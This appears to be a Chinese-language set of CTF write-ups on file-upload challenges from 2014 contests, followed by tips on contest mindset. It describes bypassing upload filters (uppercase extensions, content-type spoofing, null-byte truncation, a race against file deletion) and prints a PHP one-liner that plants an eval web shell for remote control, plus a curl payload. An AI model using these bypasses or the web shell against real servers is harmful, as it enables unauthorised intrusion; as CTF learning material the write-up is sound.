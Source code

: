 ##历年CTF上传类题

###SSCTF2014-UPLOAD-200pt
* Burp抓包，传正常图片，提示｛不会吧，上传图片不好吧！至少你也传个能解析的啊！｝ 但上传php文件无论怎么改、截断都是提示文件类型错误，所以猜测其对content-type进行了验证，看其是否为图片。 此时上传图片改为xx.php提示上传文件出错，然后利用文件名为大写PHP绕过。

###SCTF2014-pt400
* 管理员的 md5 搜一下得到：rootadministrator123，登陆后跳到 upload.php。
这里的上传的图片有一个过滤，当图片包含<?的时候，对，你没有看错，有<?的时候，张全蛋（英文名Michael Jack，法文名Hélodie Jaqueline）就会出现。不过很容易的，PHP 也可以通过<script language=php>phpinfo();</script>来执行。直接上传一句话，%00 截断之后得到地址，菜刀连接就好，轻车熟路。

<h3>AliCTF2014-400pt</h3>

<p>web400a就是抓包会看到一个文件上传的表单,上传文件后会给出上传后的路径和文件名,发现文件名与当前时间相关。 如/upload/upload/20140920170801.php。但是访问的时候会发现被删了。因此需要不断发生请求在被删之前访问到上传上去的脚本。脚本内容为在上一 级目录生成一句话。</p>

<pre><code>&lt;?php file_put_contents('../salt.php', '&lt;?php eval($_POST["c"]); ?&gt;'); ?&gt;
</code></pre>

<p>然后在上级目录找到上传后的一句话,就可以菜刀连接了。 菜刀连上去之后发觉/home/wwwroot/default/upload目录下面有一个dfghjdjlkfghd.zip。但是有密码,所以一时之间束手无测。随后根据提示,要去 Github上进行查找。然后再根据之前curl连接的时候发觉返回结果有一个注释,大概是这个样子:</p>

<pre><code>&lt;!--
    @author: nidongde
--&gt;
</code></pre>

<p>自然地,就去找nidongde的github主页,随后发现https://github.com/nidongde/test页面有解压缩密码: test_nidongde,解压之后得到一个php文件。提供了它的网址,以及一段内容,通过认证之后服务器会返回flag。条件:</p>

<pre><code>if($key == '_POST' &amp;&amp; ~$value['alibaba']['security'] == -2347230984235 &amp;&amp; strlen($value['alibaba']['security']) &gt;= 0){
</code></pre>

<p>由于对GET、GLOBAL等做了过滤,所以就用POST方式传数据。一开始卡住了,因为发现弄不出足够大的整数取反之后符合要求,但是再根据提示要用 x64的思维。x64下面自然int类型是很大的。最后的payload如下:</p>

<pre><code>curl -d '_POST[alibaba][security]=2347230984234' -i 'http://web400b.alictf.com/alibaba_CTF_security/'
</code></pre>

<p>即可得到flag。</p>


<br>
<br>
##做题心态
* 冷静别急，分析确定思路
* 有点耐心，尝试所有可能（简单的情况绝对不能忽略，策略应该是从 简单—>复杂 尝试）
  + 最近常见，文件名大小写绕过
  + content-type:multipart/formdata 大小写，已经遇到过很多回了
* 善于使用搜索引擎 百度 —> 必应 —> Google
